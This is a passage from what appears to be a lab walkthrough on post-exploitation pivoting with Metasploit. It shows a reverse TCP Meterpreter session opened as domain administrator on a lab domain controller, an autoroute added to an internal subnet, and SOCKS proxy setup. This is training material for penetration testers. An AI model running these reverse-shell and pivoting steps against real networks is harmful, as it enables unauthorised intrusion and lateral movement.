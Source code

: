 ```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:8443 
[*] Sending stage (200262 bytes) to 10.10.14.15
[*] Meterpreter session 2 opened (10.10.14.15:8443 -> 10.10.14.15:46313 ) at 2022-06-22 21:36:20 -0400

(Meterpreter 2)(C:\) > getuid
Server username: INLANEFREIGHT\Administrator
(Meterpreter 2)(C:\) > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 3
Meterpreter     : x64/windows
```

For our next trick we'll set up a route to the `172.16.9.0/23` subnet.

```shell-session
(Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.9.0/255.255.254.0...
[+] Added route to 172.16.9.0/255.255.254.0 via 10.10.14.15
[*] Use the -p option to list all active routes
```

We can confirm this by checking the MSF routing table.

```shell-session
(Meterpreter 2)(C:\) > background
[*] Backgrounding session 2...
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.9.0         255.255.254.0      Session 2
```

Now we need to set up a socks proxy which is the final step before we can communicate directly with the `172.16.9.0/23` network from our attack host.

```shell-session
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> use auxiliary/server/socks_proxy 
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This
                                        must be an address on the local machine or 0.0.0.0 to l
                                        isten on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:
```